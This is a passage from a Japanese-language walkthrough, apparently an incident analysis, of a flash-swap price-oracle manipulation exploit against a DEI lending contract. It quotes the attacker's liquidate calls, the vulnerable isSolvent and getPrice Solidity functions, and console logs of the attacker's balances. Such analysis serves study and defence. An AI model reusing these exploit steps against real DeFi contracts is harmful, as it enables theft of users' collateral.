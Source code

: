 ##### 3 ) 特定ユーザーの清算処理

以下のコードが呼び出され、特定のユーザーに対して清算処理が行われます。

```solidity
dei.approve(deiLenderSolidex.mintHelper(), dei.balanceOf(me));
deiLenderSolidex.liquidate(victims, me);
```

清算処理が実行されると、以下のコードが呼び出されます。

```solidity
function isSolvent(address user) public view returns (bool) {
    // accrue must have already been called!

    uint256 userCollateralAmount = userCollateral[user];
    if (userCollateralAmount == 0) return getDebt(user) == 0;

    return
        userCollateralAmount.mul(oracle.getPrice()).mul(LIQUIDATION_RATIO) /
            (uint256(1e18).mul(1e18)) >
        getDebt(user);
}
```

このとき、清算処理が実際に行われるかどうかを判断するために、getPrice関数が呼び出されます。
この関数は、プールしてあるDEIとUSDCの量から、DEIの価格を返却する関数です。

ステップ2でフラッシュスワップしているため、DEIの残高が低下しています。
そのため、担保割れしていると判断され、清算処理が行われます。

```solidity
function getPrice() external view returns (uint256) {
    return
        ((dei.balanceOf(address(pair)) + (usdc.balanceOf(address(pair)) * 1e12)) *
            1e18) / pair.totalSupply();
}
```

```
    [+] (3) liquidate the assets of victims
    [+]      my USDC balance: 0
    [+]      my DEI balance: 27150599219672207566872765
    [+]      my LP deposit token balance: 5230026958164438186
    [+]      my LP token balance: 0
```

##### 4 ) ステップ2でフラッシュスワップしたものを返却

攻撃の肝となる部分はほとんど終わったため、ここから先はフラッシュスワップの返却やLPトークンの売却などが行われます。

このステップでは、ステップ2で借り入れていたDEIの返却を行っています。

ログから、`my DEI balance`が低下していることが分かります。

```
    [+] (4) exit the flash swap from sAMM pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 2375323342879442899705842
    [+]      my LP deposit token balance: 5230026958164438186
    [+]      my LP token balance: 0
```
